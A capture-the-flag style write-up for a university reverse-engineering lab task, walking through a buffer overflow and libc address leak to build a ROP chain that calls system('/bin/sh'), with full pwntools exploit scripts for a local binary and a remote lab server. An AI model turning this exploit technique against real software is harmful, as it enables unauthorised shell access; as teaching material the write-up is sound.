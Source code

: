 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_6_task_2
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: ROP challenge with address leak for calling system
categories:
- UNIBUC RE
---
```


ROP challenge with address leak for calling system

The vulnerability is a buffer overflow here:
![](/assets/img/2022-09-02-12-38-17.png)
The libc leak is here:
![](/assets/img/2022-09-02-12-38-40.png)
Same stack setup as previous one:
![](/assets/img/2022-09-02-12-39-41.png)

```
pwndbg> p puts
$1 = {int (const char *)} 0x7fe5836cd690 <_IO_puts>
pwndbg> p system
$2 = {int (const char *)} 0x7fe5836a3390 <__libc_system>
```
we compute offset and then we make our payload:
System call is 0x2A300 earlier than puts


```
from pwn import *

from ctypes import *
e = ELF('./task02')
pop_rdi=0x40129b
bin_sh=0x40302a

io = process("./task02",env={"LD_PRELOAD" : "./libc.so"})
io.recvuntil("name")
gdb.attach(io,'break *0x40121C  ')
io.sendline(128*b'a'+8*b'x'+p64(e.symbols['leaky_function'])+p64(e.symbols['main']))
temp_recv=io.recvuntil('Puts is at address')
puts_address=int(io.recvline(),16)
print(hex(puts_address))
print('puts end ----')
system_address=puts_address-0x2a300
io.sendline(128*b'a'+8*b'x'+p64(pop_rdi)+p64(bin_sh)+ p64(system_address))


io.interactive()

```

![](/assets/img/2022-09-02-13-00-38.png)


remote connecting script:

```
from pwn import *

from ctypes import *
e = ELF('./task02')
pop_rdi=0x40129b
bin_sh=0x40302a


#io = process("./task02",env={"LD_PRELOAD" : "./libc.so"})
io=remote('45.76.91.112',10062)
io.recvuntil("name")
#gdb.attach(io,'break *0x40121C  ')
io.sendline(128*b'a'+8*b'x'+p64(e.symbols['leaky_function'])+p64(e.symbols['main']))
temp_recv=io.recvuntil('Puts is at address')
puts_address=int(io.recvline(),16)
print(hex(puts_address))
print('puts end ----')
system_address=puts_address-0x2a300
io.sendline(128*b'a'+8*b'x'+p64(pop_rdi)+p64(bin_sh)+ p64(system_address))


io.interactive()

```

